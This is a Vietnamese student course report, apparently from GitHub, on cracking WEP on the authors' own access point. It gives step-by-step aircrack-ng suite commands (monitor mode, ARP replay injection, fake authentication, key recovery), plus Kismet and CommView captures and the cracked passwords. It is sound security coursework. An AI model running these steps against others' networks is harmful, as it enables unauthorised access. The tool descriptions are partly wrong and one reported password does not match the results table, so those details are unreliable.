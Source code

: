 # **Báo cáo đồ án môn học**
## Môn học: An toàn mạng không dây và di động
## **Đề tài: CRACKING WEP**
### GVHD: **Lê Kim Hùng**
### Sinh viên: **Phạm Lam Khê 17520007 -- Cao Bá Kiệt 17520659**
### **A. Chuẩn bị**
#### **1. Các thiết bị dùng trong phần thực hành**
* Access point: TL-WR740N
* Adapter: TL-WN722N-v2
* Máy ảo: Kali linux-v5.4
#### **2. Các công cụ dùng trong bài thực hành**
* Aireplay-ng – Most popular Perl-based WEP encryption cracking tool
* Aircrack-ng – ARP spoof/injection using aireplay-ng
* Kismet – Network Sniffer, can grab IVs as well
* Airodump – GrabbingIVs
* Commview – Capturing the Packets in Windows
#### **3. Mô Hình**
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image001.png)

### **B. Thực hiện**
#### **I.Sử dụng Airmon-ng, Airodump-ng, Aireplay-ng, để crack password**
**Các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
#airmon-ng\
Bước 2: Bật chế độ monitor cho wireless adapter\
#airmon-ng start wlan0\
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (sử dụng airodump hoặc kismet)\
#airodump-ng wlan0mon \
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
#aireplay-ng -9 -e [SSID] -a [BSSID] wlan0mon\
Bước 5: Bắt các IV được sinh ra từ Access point\
#airodump-ng --bssid [bSSID] -c [Channel of AP] -w [tên file capture] wlan0mon\
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
#aireplay-ng -3 -b [bssid] -h [MAC station] wlan0mon\
Bước 7: Fake authentication với AP\
#aireplay-ng -1 0 -e [SSID] -a [bSSID] -h [MAC station] wlan0mon\
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa ? Thường thì khoảng 20000 đối với key length 64bits và 900000 đối với key length 128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
#Aircrack-ng [tên file capture đã bắt ở trên]\
**Thực hiện 4 lần**
|STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|
|3 | MrKiett007 |   MrA12 |64-bits|Thành công|
|4|MrKiett007|  Mr_*1 |64-bits|Thành công|

**Chi tiết các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
#airmon-ng\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image004.png)\
Bước 2: Bật chế độ monitor cho wireless adapter\
#airmon-ng start wlan0\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image005.png)\
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (Có thể dùng airodump hoặc kismet)\
#airodump-ng wlan0mon \
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image006.png)\
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
#aireplay-ng -9 -e MrKiett007-a 62:FF:3E:5A:58:C1 wlan0mon\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image007.png)\
Bước 5: Bắt các IV được sinh ra từ Access point\
#airodump-ng –bssid 62:FF:3E:5A:58:C1 -c 1 -w WEPcrack wlan0mon\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image008.png)\
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
#aireplay-ng -3 -b 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image009.png)\
Bước 7: Fake authentication với AP\
#aireplay-ng -1 0 -e MrKiett007 -a 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image010.png)\
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa? Thường thì khoảng 20000 đối với key length =64bits và 900000 đối với key length=128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
#Aircrack-ng WEPcrack-01.cap\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image011.png)\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image012.png)\
* ==> tìm được key : _*KietKhe.@/;
**Làm tương tự với 3 trường hợp còn lại:**
Kết quả:
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image013.png)\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image014.png)\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image015.png)
#### **II.Sử dụng công cụ kismet và aircrack-ng để tìm password**
* Bước 1: Vào file **/etc/kismet/kismet_logging.conf** sửa file:
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/fileCauHinh.png)\
* Bước 2: Bật chế độ monitor\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image005.png)\
* Bước 3: Chạy kismet và một lúc để bắt đủ số lượng gói tin
#sudo kismet -c wlan0mon\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/Screenshot_2020-06-30_10-34-02.png)
* Bước 4: Chuyển file pcapng thành pcap bằng wireshark ( Mở file pcapng lên bằng wireshark và lưu lại thành file pcap)
* Bước 5: Dùng aircrack-ng để tìm password
![a](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/ap.png)\
![a](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/PASS.png)

#### **III.Sử dụng công cụ Comview và aircrack-ng để tìm password**
**Qui trình thực hiện:**
* Bước 1: Dùng comview để bắt gói tin chứa IV
* Bước 2: Dùng Aircrack-ng để tìm password

 |STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|


**Chi tiết thực hiện:**\
Bước 1: Chọn Capture Packet, vào loging để chỉnh dung lượng file log và nơi lưu trữ:\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image016.png)\
Bước 2: Vào Nodes và cấu hình scaner mode trên tất cả các channel\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image017.png)\
Bước 3: Chọn Start Capture và quan sát thông tin liên quan đến trạm wifi cần tìm password\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image018.png)\
Bước 4: Chọn Single channel mode, và chọn channel thích hợp (VD: là channel 2)\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image019.png)\
Bước 5: Sau một thời gian đợi số lượng gói tin bắt được đủ lớn thì dừng. Số lượng gói tin cần bắt phụ thuộc vào độ phức tạp của key.\
**=>Vào File -> Log viewer và mở file log vừa bắt ở trên lên để đọc file log**\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image020.png)\
Bước 6: Chọn File -> export logs -> wireshark/tcpdump format và lưu lại file .cap\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image021.png)\
Bước 7: dùng aircrack để tìm password. Copy file .cap đã lưu vào máy kali sau đó dùng lệnh aircack-ng [ten file] \
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image022.png)\
==> Đã tìm được password (  _*MraK12.@#/;  )\
**Làm tương tự với trường hợp còn lại. Kết quả:**\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image023.png)

